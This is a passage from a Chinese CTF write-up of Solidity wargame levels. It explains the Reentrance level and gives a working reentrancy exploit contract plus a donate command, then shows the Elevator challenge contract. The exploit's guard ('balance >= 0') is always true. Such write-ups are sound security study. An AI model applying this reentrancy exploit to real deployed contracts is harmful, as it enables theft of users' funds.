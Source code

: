         receive() external payable {}
    }
    ```

这题考察重入攻击，因为withdraw是先转账，所以可以使用receive或fallback一直withdraw。刚开始卡了很久，后来发现是改了合约代码后忘记重新编译了，浪费了好多gas费qaq。

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    /* code of Reentrance */

    contract Exploit {
        Reentrance challenge;
        constructor(address payable addr) public payable {
            challenge = Reentrance(addr);
        }
        function exp() public {
            challenge.withdraw(0.001 ether);
        }
        fallback() external payable {
            if (address(challenge).balance >= 0) {
                challenge.withdraw(0.001 ether);
            }
        }
    }
    ```

执行合约前，需要先donate保证合约可以取钱。`#!js contract.donate.sendTransaction(<exp contract addr>, {value: toWei("0.001")})` 

## Elevator

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    interface Building {
        function isLastFloor(uint) external returns (bool);
    }


    contract Elevator {
        bool public top;
        uint public floor;

        function goTo(uint _floor) public {
            Building building = Building(msg.sender);

            if (! building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
    ```
